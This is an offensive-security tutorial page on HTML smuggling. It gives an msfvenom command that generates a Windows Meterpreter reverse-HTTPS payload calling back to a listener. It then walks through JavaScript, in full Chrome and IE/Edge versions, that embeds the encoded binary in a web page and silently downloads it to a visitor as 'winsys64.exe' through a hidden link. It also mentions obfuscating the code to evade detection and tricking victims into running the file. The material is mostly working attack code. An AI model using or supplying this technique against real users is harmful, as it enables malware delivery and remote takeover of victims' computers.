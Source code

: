 # Using JavaScript

Overview of steps required to embed JavaScript within an HTML document that will trigger an automatic download of a first stage payload to a target system when the web page is visited by the victim. The file still has to be saved to disk by the user and then manually executed, which will require manipulating the user to performs these tasks via social engineering and/or pretexting.

{% hint style="info" %}
This example is for educational purposes only. In the real world, this code will be further obfuscated in order to evade detection.
{% endhint %}

### Steps

The steps below walks you through creating JavaScript code that is compatible with Chrome. For IE/Edge, see the full script section for the compatible code. Note that the IE/Edge code does not work with Chrome and vice versa.

#### Step 1:

Generate a Meterpreter shellcode windows binary.&#x20;

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 -f exe -o /var/www/html/o.exe
```

Generate a base64 encoded string of the binary to help avoid invalid or bad characters.

```
base64 /var/www/html/o.exe
```

#### Step 2:

Write a base64 to byte array converter function in JavaScript to decode the shellcode into a byte array.

```javascript
function base64ToByteArray(enc) { 
    var binaryString = window.atob(enc); 
    var len = binaryString.length; 
    var byteArray = new Uint8Array(len); 
    for (var i = 0; i < len; i++) { 
        byteArray[i] = binaryString.charCodeAt(i); 
        } 
    return byteArray.buffer; 
}
```

#### Step 3:

Create a variable to store the filename for the payload that will be saved on the target system.

```javascript
var outName = 'winsys64.exe';
```

#### Step 4:

Store the base64 encoded payload in a variable. Remove any line breaks or new lines from the base64 encoded executable to embed it as one continuous string (alternatively, wrap each line in quotes).

```javascript
var payL ='TvqQAAMAAAAEAAAA//8AAAA…’ <--base64 encoded binary -->
```

#### Step 5:

Convert the encoded shellcode into a bytearray and store in a new variable.

```javascript
var stream = base64ToByteArray(payL);
```

#### Step 6:

To use the HTML5 download attribute, create a blob object and instantiate it with the payload byte array.

```javascript
var blobby = new Blob([stream], {type: 'octet/stream'});
```

#### Step 7:

Create a URL file object using the blob object. This simulates a file located on the web server, but instead reads it from memory.

```javascript
var urlRef = window.URL.createObjectURL(blobby);
```

#### Step 8:

Create the new anchor object and append it to the HTML document. Set the display attribute to none to hide it from the output of the rendered page.

```javascript
var anc = document.createElement('a');
document.body.appendChild(anc);
anc.style = 'display: none';
```

#### Step 9:

Set the href tag to the URL file object created in step 7.

```javascript
anc.href = urlRef;
```

#### Step 10:

Set the download attribute by specifying the filename to store the payload in. Use the click() method to trigger the download onto the target machine.

```javascript
anc.download = outName;
anc.click();
```

Step 11:

Finally, let the browser know that you are finished with the URL object so it knows not to keep the reference to the file any longer.

```javascript
window.URL.revokeObjectURL(urlRef);
```

### Full script (Chrome)

```javascript
<script>
function base64ToByteArray(enc) { 
    var binaryString = window.atob(enc); 
    var len = binaryString.length; 
    var byteArray = new Uint8Array(len); 
    for (var i = 0; i < len; i++) { 
        byteArray[i] = binaryString.charCodeAt(i); 
        } 
    return byteArray.buffer; 
}
var outName = 'winsys64.exe';
var payL ='TvqQAAMAAAAEAAAA//8AAAA…   <--base64 encoded binary (truncated)->
var stream = base64ToByteArray(payL);
var blobby = new Blob([stream], {type: 'octet/stream'});
var urlRef = window.URL.createObjectURL(blobby);

var anc = document.createElement('a');
document.body.appendChild(anc);
anc.style = 'display: none';
anc.href = urlRef;
anc.download = outName;
anc.click();
window.URL.revokeObjectURL(urlRef);
</script>
```

### Full script (IE/Edge)

```javascript
<script>
function base64ToByteArray(enc) { 
    var binaryString = window.atob(enc); 
    var len = binaryString.length; 
    var byteArray = new Uint8Array(len); 
    for (var i = 0; i < len; i++) { 
        byteArray[i] = binaryString.charCodeAt(i); 
        } 
    return byteArray.buffer; 
}
var outName = 'winsys64.exe';
var payL ='TvqQAAMAAAAEAAAA//8AAAA…   <--base64 encoded binary (truncated)->
var stream = base64ToByteArray(payL);
var blobby = new Blob([stream], {type: 'octet/stream'});
window.navigator.msSaveOrOpenBlob(blobby, outName);
</script>
```






